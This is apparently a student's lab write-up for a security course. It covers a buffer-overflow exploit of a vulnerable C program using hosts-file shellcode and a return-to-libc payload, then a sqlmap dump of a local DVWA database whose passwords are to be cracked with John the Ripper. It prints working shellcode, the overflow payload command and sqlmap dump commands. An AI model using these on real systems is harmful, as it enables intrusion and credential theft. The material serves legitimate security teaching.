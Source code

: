 # Lab #1, 22110080, Ly Dang Trieu, INSE3308E_02FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  **Answer 1**: Must conform to below structure:

Description text (optional)
- Stack frame of `vuln.c`:
  
![stackframe](https://github.com/user-attachments/assets/6ba7454b-8817-4dd2-83ab-c08021280a03)

- Compile asm program and C program to executable code.
  
![img0](https://github.com/user-attachments/assets/9fb357a1-a96b-4222-a489-8c23dcb38f00)

- Use an older bash and turn off randomly given stack value.

![img1](https://github.com/user-attachments/assets/e0baee2c-9e03-48e1-a838-cf14988c5286)

- Create environmet variable `preload` with `export`
  
![img2](https://github.com/user-attachments/assets/5eba5ab4-e8e3-4348-b619-e1961e175895)

- We need to find the address of `system`, `exit` and `preload` variable. Load `vuln.out` into `gdb` and find them.
  - Address value of system: `0xf7e50db0` will be inserted with format `\xb0\x0d\xe5\xf7`
  - Address value of exit: `0xf7e449e0` will be inserted with format `\xe0\x49\xe4\f7`
  - Address value of the string of `preload`: 0xffffde32 will be inserted with format `\x32\xde\xff\xff`
 
![img3](https://github.com/user-attachments/assets/cfe172ed-b234-4c03-8190-4f101d198441)

- Look at stack frame, we have to insert 20 bytes of padding, the next 4 bytes are the system address, the next 4 bytes are exit and the last 4 bytes are preload. So our command is:
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x32\xde\xff\xff')")
```
![frame-system](https://github.com/user-attachments/assets/200582bf-198b-48b6-8522-e91b596af9ac)
![img4](https://github.com/user-attachments/assets/7eda45ff-b92b-43a1-8199-a9f8d24dd397)


output screenshot (optional)

- Before
  
![img5](https://github.com/user-attachments/assets/dc9d261e-99df-48b1-81f1-448eba44af4f)

- After

![win](https://github.com/user-attachments/assets/529baffe-f153-42df-831c-afeba8a4e703)


**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.

# Task 2: Attack on the database of Vulnerable App from SQLi lab

- Start docker container from SQLi.
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
- Use them command below to get information about all available databases
```
run `python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=kdmmsrmp3voj7k0alb3e9bfgb6; security=low" --dbs
```
- The back-end database is: `MySQL`, it has two database is
  - dvwa
  - infomation_schema
  
![sql1](https://github.com/user-attachments/assets/c1ec353e-32ea-46e5-be69-ed3ec890d90c)

- In database `dvwa`
  
![sql2](https://github.com/user-attachments/assets/471338dd-0a6d-4d56-b90b-30083f5f954d)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
- Use the command below to get users information and crack the password.
```
python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=kdmmsrmp3voj7k0alb3e9bfgb6; security=low" --dump
```
![sql3](https://github.com/user-attachments/assets/cd3646a5-b1d0-45a6-b747-251d5c08b781)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

![sql4](https://github.com/user-attachments/assets/35c2cee2-bd31-41b3-8a79-adb25828302f)
